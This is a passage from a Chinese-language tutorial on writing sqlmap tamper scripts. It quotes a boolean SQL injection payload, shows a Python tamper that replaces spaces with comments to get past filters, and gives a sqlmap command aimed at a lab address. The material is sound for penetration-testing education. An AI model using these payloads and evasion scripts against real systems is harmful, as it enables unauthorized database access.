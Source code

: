 首先判断这个参数的值是整数型还是字符型，因为在数据库中，要进行条件匹配、逻辑运算的话，字符是要被双引号包裹起来的，而整数不用。

### Example：
> SELECT * FROM user WHERE username = 'root'
> SELECT * FROM user WHERE uid = 1
> SELECT * FROM user WHERE uid ='1' # 数字字符遇到整数型字段会被自动转换

再看这一条：`[14:00:28] [PAYLOAD] root' AND 6033=6033 AND 'HFDv'='HFDv`，此时已经完全符合我们的要求了。
SQL语句如下：`SELECT * FROM user WHERE username='root' AND 6033=6033 AND 'HFDv'='HFDv'`

> 如果还不理解，你就要去看手工注入的知识了，没必要再向下阅读了。

## 0x03 Tamper的几个玩法

到了重头戏了，我们来自己写几个Tamper，然后去分析我之前写过的Tamper，还是很好理解的！

本文中涉及的技术并没有多么深，你只需要有手工注入的基础、Python的字符串简单操作即可写出自己的Tamper。

首先举个例子，假设我们有一个加工厂，这个加工厂的产品需要经过三个流程，`进货`、`加工`、`包装`、`出售`。但是我们的货物我们不需要去包装就可以直接出售给客户。

> 这里的货物就是我们的SQL注入点，你可以把它当作一个向服务器端发送的请求。

> 这个进货的操作就是我们将检测目标传递给自动化注入工具的过程了。

> 加工就是自动化注入工具进行分析、构造合适的Payload。

> 假设这个货物要被包装才可以出售(调用了 --tamper参数)，那么我们的加工材料(Payload)就会经过我们的包装车间(tamper函数),为了兼容不同的产品，所以根据产品的个数设立了可变的车间(payload参数和**kwargs参数)。

> 最后的出售就是将加工好的产品(请求)卖给客户(存在注入点的服务器)。

整个tamper的作用就在这里，用于判断是否需要包装。

下面我根据刚才这个例子来写一个简单的包装车间(tamper)：
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2016 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):# tamper函数体内你可以把payload和kwargs当作已经传递进来的值
    payload = payload.replace(" ","/**/") # 将空格替换为/**/
    print payload #适当的还可以直接输出，不使用-v参数了。
    return payload #必须返回最后的Payload
```
我们将上面的代码保存为tamperdeomo.py放到sqlmap的tamper目录中。
然后试着调用这个脚本
> sqlmap -u http://192.168.1.149/sqli/example1.php?name=root --tamper=tamperdemo
